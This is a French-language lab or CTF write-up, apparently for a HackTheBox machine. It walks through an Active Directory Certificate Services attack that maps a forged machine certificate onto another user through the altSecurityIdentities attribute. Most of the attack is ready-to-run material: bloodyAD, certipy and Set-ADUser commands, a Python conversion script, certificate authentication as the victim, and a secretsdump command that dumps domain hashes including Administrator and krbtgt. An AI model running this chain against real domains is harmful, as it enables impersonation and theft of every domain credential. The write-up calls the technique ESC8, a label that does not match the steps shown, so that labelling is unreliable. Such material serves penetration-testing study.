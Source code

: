 # ESC8

***

## <mark style="color:red;">🧬 Attaque ADCS via</mark> <mark style="color:red;"></mark><mark style="color:red;">`altSecurityIdentities`</mark>

#### 🎯 Objectif : Forger une identité Kerberos en liant un certificat à un utilisateur Active Directory

***

### <mark style="color:blue;">🧠 Qu’est-ce que</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`altSecurityIdentities`</mark> <mark style="color:blue;"></mark><mark style="color:blue;">?</mark>

`altSecurityIdentities` est un **attribut LDAP d’un objet utilisateur AD**.

Il permet à un utilisateur de **s’authentifier avec un certificat X.509** (comme une carte à puce, ou un certificat émis par le CA interne).\
C’est utilisé en **authentification SmartCard** (PKINIT).

⚠️ Sauf que… **rien n’empêche un admin (ou un attaquant avec les bons droits) de forger ce champ à la main pour mapper&#x20;**_**n’importe quel certificat**_**&#x20;à n’importe quel compte.**

***

### <mark style="color:red;">📍 Prérequis pour l’attaque</mark>

1. 🔑 Posséder un **certificat X.509 + clé privée** valide émis par **le même CA** que celui configuré dans AD.
2. 🧑‍💼 Avoir un compte qui peut modifier un utilisateur AD cible (`Set-ADUser`, `GenericAll`, `Write altSecurityIdentities`, etc.).
3. ✅ Le certificat doit contenir les bons `Issuer` et `Serial Number` pour que la correspondance fonctionne.

***

### <mark style="color:red;">🧾 Étapes détaillées de l’attaque</mark>

***

#### <mark style="color:green;">① Créer un nouvel ordinateur (Computer Account) via</mark> <mark style="color:green;"></mark><mark style="color:green;">`bloodyAD`</mark>

```bash
bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p 'Password123' --dc-ip 10.10.11.65 add computer meow 'Password123'
```

➡️ Cela crée `meow$` avec un mot de passe défini.

***

#### <mark style="color:green;">② Demander un certificat Machine avec</mark> <mark style="color:green;"></mark><mark style="color:green;">`certipy`</mark>

```bash
certipy-ad req \
  -ca scepter-DC01-CA \
  -template Machine \
  -target 10.10.11.65 \
  -username meow$ \
  -password 'Password123'
```

➡️ Résultat : un certificat `.pfx` émis pour `meow.scepter.htb`.

***

#### <mark style="color:green;">③ Extraire le certificat</mark> <mark style="color:green;"></mark><mark style="color:green;">`.crt`</mark> <mark style="color:green;"></mark><mark style="color:green;">avec OpenSSL</mark>

```bash
certipy-ad cert -pfx meow.pfx -nokey -out meow.crt
openssl x509 -in meow.crt -noout -text
```

➡️ On récupère :

* **Issuer**
* **Serial Number**

Exemple :

```
Issuer: CN=scepter-DC01-CA,DC=scepter,DC=htb
Serial Number: 62:00:00:00:0e:2d:24:d9:92:4d:f7:a4:cc:00:00:00:00:00:0e
```

***

#### <mark style="color:green;">④ Convertir le X.509 → format</mark> <mark style="color:green;"></mark><mark style="color:green;">`altSecurityIdentities`</mark>

> Format attendu : `X509:<I>{Issuer}<SR>{Serial Reversed}`

Script utilisé :

```python
# conv.py
import sys
def parse_serial(hex_serial):
    hex_serial = hex_serial.replace(":", "")
    bytes_reversed = [hex_serial[i:i+2] for i in range(0, len(hex_serial), 2)][::-1]
    return ''.join(bytes_reversed).lower()

def format_altsecid(issuer, serial):
    issuer_parts = [p.strip() for p in issuer.split(',')[::-1]]
    return f'X509:<I>{','.join(issuer_parts)}<SR>{parse_serial(serial)}'

if __name__ == "__main__":
    serial = sys.argv[sys.argv.index("-serial")+1]
    issuer = sys.argv[sys.argv.index("-issuer")+1]
    print(format_altsecid(issuer, serial))
```

Exécution :

```bash
python3 conv.py -serial '62:00:00:00:0e:2d:24:d9:92:4d:f7:a4:cc:00:00:00:00:00:0e' \
                -issuer 'CN=scepter-DC01-CA,DC=scepter,DC=htb'
```

➡️ Donne :

```
X509:<I>DC=htb,DC=scepter,CN=scepter-DC01-CA<SR>0e0000000000cca4f74d92d9242d0e00000062
```

***

#### <mark style="color:green;">⑤ Injecter ce mapping sur le user cible</mark>

```powershell
Set-ADUser p.adams -Replace @{altSecurityIdentities='X509:<I>DC=htb,DC=scepter,CN=scepter-DC01-CA<SR>0e0000000000cca4f74d92d9242d0e00000062'}
```

⚠️ Cela signifie que **tout certificat ayant cet Issuer + Serial peut s’authentifier comme `p.adams`**.

***

#### <mark style="color:green;">⑥ Utiliser</mark> <mark style="color:green;"></mark><mark style="color:green;">`certipy`</mark> <mark style="color:green;"></mark><mark style="color:green;">pour s’auth comme</mark> <mark style="color:green;"></mark><mark style="color:green;">`p.adams`</mark>

```bash
certipy-ad auth -pfx meow.pfx -dc-ip 10.10.11.65 -username p.adams
```

Même si ce certificat est pour `meow$`, comme il est **mappé via altSecurityIdentities à `p.adams`**, le KDC le considère comme valide.

***

#### <mark style="color:green;">⑦ Récupérer les secrets (hash NTLM ou secretsdump)</mark>

```bash
python3 secretsdump.py -just-dc -hashes aad3b4...:1b92... scepter.htb/p.adams@10.10.11.65
```

➡️ Tu dumpes `Administrator`, `krbtgt`, tout le NTDS.DIT.

***

### <mark style="color:blue;">🧪 Schéma ASCII de l’attaque ESC8</mark>

```
Attaquant (a.carter)                      ADCS Server / CA                  KDC (dc01.scepter.htb)
        |                                        |                                  |
        |-- forge computer (meow$) -------------->                                  |
        |                                        |                                  |
        |-- request cert for meow$ -------------->                                  |
        |<- receives X.509 + key (meow.pfx) <-----                                  |
        |                                        |                                  |
        |-- extract Issuer/Serial                |                                  |
        |-- set altSecurityIdentities=p.adams --|--> LDAP modif user p.adams       |
        |                                        |                                  |
        |-- use certipy-auth as p.adams --------> Cert valid via altSecID          |
        |                                        |<------------- TGT ---------------|
        |                                        |                                  |
        |-- dump secrets w/ p.adams access ---------------------------------------> |
```

***

* [🎓 ESC8 on Certified Pre-Owned (SpecterOps)](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [🔧 Certipy Wiki ESC8](https://github.com/ly4k/Certipy/wiki/ESC8)
* [🛠️ ADCS Attacks Overview](https://github.com/dirkjanm/PKINITtools)

***
